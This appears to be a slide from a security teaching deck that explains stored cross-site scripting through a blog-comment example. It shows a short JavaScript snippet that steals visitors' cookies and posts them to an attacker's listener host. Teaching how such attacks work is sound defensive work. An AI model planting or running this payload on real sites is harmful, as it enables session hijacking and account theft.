

# A closer look to exploits: stored xss
Stored XSS is another variant of Cross Site Scripting vulnerability that allows the malicious actor to insert malicious code inside a trusted website.

The key point to understand this kind of vulnerability is that when a malicious code has been «stored» into the legitimate website, every user that visit it trigger it unknowingly.

A very trivial example to understand how it works is a simple website that offers the possibility to the users to write comments (something similar to a social network or a blog).

The javascript below is an example of code that steals the cookies of the visitor and sends a POST request to a third party site owned by the attacker that is listening for http requests.

<script>
fetch('https://third_party_listener.org’,
{method: 'POST',
mode: 'no-cors',
body:document.cookie});
</script>

33